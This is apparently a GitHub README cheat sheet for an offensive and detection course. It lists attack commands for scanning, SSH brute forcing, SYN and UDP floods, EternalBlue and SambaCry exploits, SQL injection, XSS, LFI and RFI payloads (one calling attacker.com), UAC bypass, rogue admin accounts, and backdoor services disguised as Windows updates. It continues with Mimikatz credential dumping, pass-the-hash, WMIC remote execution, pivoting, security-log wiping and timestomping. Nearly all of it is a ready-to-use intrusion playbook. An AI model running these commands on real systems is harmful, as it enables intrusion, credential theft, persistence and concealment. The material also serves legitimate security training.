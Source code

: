# list-command-Offensive-Detection-course
List command that used in Offensive &amp; Detection Course

## Service Exploitation
#scan network & VA
nmap -P0 <IP>
openvas
nessus
#bruteforcing
hydra-wizard
hydra -l root -P /usr/share/wordlists/rockyou.txt -u  -s 22  <IP> ssh
#DoS
TCP(SYN Flood): hping3 -S -L -w --flood -p 80 <TARGET>
UDP(Volume Based Attack) : hping3 --UDP --flood -p 80 <TARGET>
#Sambacry
(metasploit) exploit/linux/samba/is_known_pipename
(msf) set RHOST 192.168.210.104
(msf) exploit
#Eternalblue
(metasploit) exploit/windows/smb/ms17_010_eternalblue
(msf) set RHOST 192.168.210.102
(msf) exploit

## Web Application Attack
#SQL Injection
') union select 1,email,password,4,5,6,7 from users;--
#XSS
<<script>alert("XSS")</script>script>alert("XSS")<</script>/script>
#Local File Inclusion
../../../../../../../../../../etc/passwd
#LFI&RFI&SSRF
render.php?include=http://attacker.com

## Lateral Movement
# normal reconnaissance
tasklist
systeminfo
whoami
whoami /priv
#Bypass UAC & Privilege Escalation
use exploit/windows/local/bypassuac
use exploit/windows/local/bypassuac_eventvwr
set SESSION <id>
exploit
# net command
net localgroup Users
net localgroup Administrators
net user sservice p@ssw0rd /add
net localgroup administrators sservice /add
# Install new service
sc create microsoft_update binpath= "cmd /K start c:\Windows\Temp\backdoor.exe" start= auto error= ignore /c C:\Windows\Temp\backdoor.exe
sc create Microsoft_Update binpath= "cmd /K start C:\Users\john.SECPLAYGROUND\Downloads\update.exe" start= "auto" DisplayName= "Windows Automatic updates"
#Enable Remote Desktop
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v AllowTSConnections /t REG_DWORD /d 1
reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
net start termservice
sc config termservice start= auto

# Mimikatz
wget "https://github.com/gentilkiwi/mimikatz/releases/download/2.1.1-20171220/mimikatz_trunk.zip"
unzip mimikatz_trunk.zip
(msf) upload /opt/x64/mimikatz.exe .
(msf) upload /opt/x64/mimidrv.sys .
(msf) upload /opt/x64/mimilib.dll .
(msf) session -i <id>
mimikatz.exe
(mimikatz) privilege::debug
(mimikatz) sekurlsa::logonPasswords full

# Pass-the-hash
git clone https://github.com/byt3bl33d3r/pth-toolkit
#reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\system /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
pth-winexe -U hash //IP cmd
./pth-winexe -U john%'921988ba001dc8e14a3b108f3fa6cb6d:e19ccf75ee54e06b06a5907af13cef42' //192.168.210.102 cmd.exe
sc query winexesvc
sc start winexesvc
./pth-winexe -U john%'921988ba001dc8e14a3b108f3fa6cb6d:e19ccf75ee54e06b06a5907af13cef42' --system //192.168.210.102 cmd.exe
xfreerdp /u:user /d:domain /pth:hash /v:IPAddress

# WMIC
wmic useraccount list /format:list
wmic group list brief
wmic path win32_process call create "calc.exe"
wmic /node:computername /user:domainname\username path win32_process call create "**empire launcher string here**"
wmic /node:192.168.255.10 /user:"secplayground\john" path win32_process call create "calc.exe"
wmiexec.py -debug john:P@ssw0rd@192.168.210.102

#pivoting network
(meterpreter) run autoroute -s 192.168.255.0/24
(meterpreter) run post/windows/gather/arp_scanner rhosts=192.168.255.0/24
(msf) use auxiliary/server/socks4a
(msf) set SRVHOST 0.0.0.0
(msf) set SRVPORT 9999
(msf) exploit
#Edit /etc/proxychains.conf
proxychains nmap -sT -sV -Pn -n -p22,80,135,139,445 --script=smb-vuln-ms08-067.nse 192.168.255.10
proxychains wmiexec.py -debug john:P@ssw0rd@192.168.255.10

# Delete all system log
wevtutil cl security

# Winrm
PS> Enable-PSRemoting -Force
winrm quickconfig

#schtask
#create new schedule task
schtasks /create /tn foobar /tr c:\windows\temp\foobar.exe /sc once /st 00:00 /S host /RU System
schtasks /run /tn foobar /S host
#delete schedule task
schtasks /F /delete /tn foobar /S host

#Timestomp
(meterpreter) timestomp mimikatz.exe -v



Resource::
- https://www.botconf.eu/wp-content/uploads/2017/12/2017_tomonaga-muda-Hunting-Attacker-Activities.pdf
- https://www.slideshare.net/votadlos/hunting-lateral-movement-in-windows-infrastructure
- https://bitvijays.github.io/LFF-IPS-P3-Exploitation.html#net-user-domain
